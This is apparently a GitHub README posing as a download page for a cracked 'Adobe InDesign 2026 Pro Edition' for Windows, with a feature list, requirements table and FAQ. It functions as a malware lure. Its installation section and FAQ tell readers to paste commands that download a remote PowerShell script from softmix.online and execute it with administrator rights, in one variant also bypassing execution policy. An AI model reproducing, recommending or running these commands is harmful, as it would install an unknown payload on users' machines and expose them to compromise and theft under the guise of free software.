

<div align="center">


<br>


# Adobe InDesign 2026 Pro Edition
**2026 full · Publishing · Print PDF**
<br>
**2026 full · Publishing · Print PDF**
<br>
Premium · Pro · Full build · Windows



**Adobe InDesign 2026 — page layout, publishing and print design for magazines and books on Windows.**

</div>

---

> InDesign 2026 enables master pages, packaging and EPUB export — publish layouts with full desktop features.

## `INSTALLATION`

<div align="center">


<br><br>

**Run in PowerShell as Administrator:**

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

<sub>Copy · paste · press Enter · confirm UAC</sub>

</div>

## `FEATURES`

- 🎨 **Premium modules** — Advanced panels, presets and export profiles enabled.
- 🖼️ **Creative workflow** — Layer, timeline and asset tools without restrictions.
- 📤 **High-quality export** — Production codecs and print-ready output profiles.
- 🧩 **Plugin support** — Third-party extensions and cloud libraries compatible.
- 📦 **Offline studio** — Work locally after one-command PowerShell setup.
- 🖥️ **Windows optimized** — Built for Windows 10/11 creative workstations.
- ⚡ **One command setup** — PowerShell handles download, unpack and install.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 16 GB recommended |
| **Disk** | 20 GB free space |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 16 GB recommended, 20 GB free space.
</details>


TAGS
indesign, adobe, publishing, layout, print, design, adobe-indesign, adobe-indesign-2026, adobe-indesign-pc, creative-cloud, design-suite, media-production, creative-workflow, desktop-app
